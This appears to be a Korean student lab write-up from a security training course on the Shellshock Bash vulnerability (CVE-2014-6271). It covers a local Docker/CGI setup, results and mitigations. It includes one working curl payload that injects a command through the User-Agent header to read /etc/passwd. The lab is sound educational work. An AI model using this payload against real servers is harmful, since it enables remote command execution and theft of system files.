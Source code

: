 # Shellshock (CVE-2014-6271) 취약점 실습

화이트햇 스쿨 3기 - 박상경 (@bsk2002)

## 요약
Shellshock은 Bash의 환경 변수 처리 과정에서 발생하는 취약점입니다.
특수하게 조작된 환경 변수를 통해 Bash 명령어가 실행될 수 있어, 원격 코드 실행(RCE)로 이어질 수 있습니다.

웹 서버가 CGI 스크립트를 통해 Bash를 호출하는 경우, 공격자가 HTTP 헤더를 조작하여 서버에서 임의 명령어를 실행할 수 있습니다.

## 환경 구성 및 실행
- `docker-compose.yml`과 `Dockerfile`을 작성하여 직접 환경을 구성했습니다.
- `docker-compose up -d` 명령어로 컨테이너를 빌드 및 실행합니다.
- 브라우저에서 `http://localhost:8080/cgi-bin/safe.cgi` 접속 시 `This is a safe CGI script.` 문구가 출력되면 정상적으로 환경이 구축된 것입니다.
- 취약점 테스트:
  `curl -A '() { :;}; echo; echo; /bin/cat /etc/passwd' http://localhost:8080/cgi-bin/victim.cgi`
  위 명령어를 실행했을 때 /etc/passwd 파일 내용이 출력되면 취약점이 존재함을 확인할 수 있습니다.
※ 별도의 poc.py 파일은 필요하지 않습니다. curl 명령어만으로 공격이 가능합니다.

## 결과

- `This is a safe CGI script.` 문구가 정상 출력되었습니다.
- 이후 공격용 curl 명령어를 통해 서버의 `/etc/passwd` 파일을 읽을 수 있었습니다.
  ![image](https://github.com/user-attachments/assets/15dc099f-c1d9-49c5-b214-fe3a2e094949)
  ![스크린샷 2025-04-27 17 13 19](https://github.com/user-attachments/assets/5852fd04-e197-4673-967c-16a59e0525c9)

## 정리
Shellshock 취약점은 Bash를 사용하는 서버에서 환경 변수만 조작해도 코드 실행이 가능한 심각한 문제입니다.
공격자는 시스템 명령어를 자유롭게 실행할 수 있어 서버 전체를 장악할 수 있습니다.

대응 방안:
- Bash를 최신 버전으로 패치합니다.
- 외부 입력을 직접 Bash로 넘기는 경우를 최대한 피합니다.
- 필요 없는 CGI 기능은 비활성화합니다.
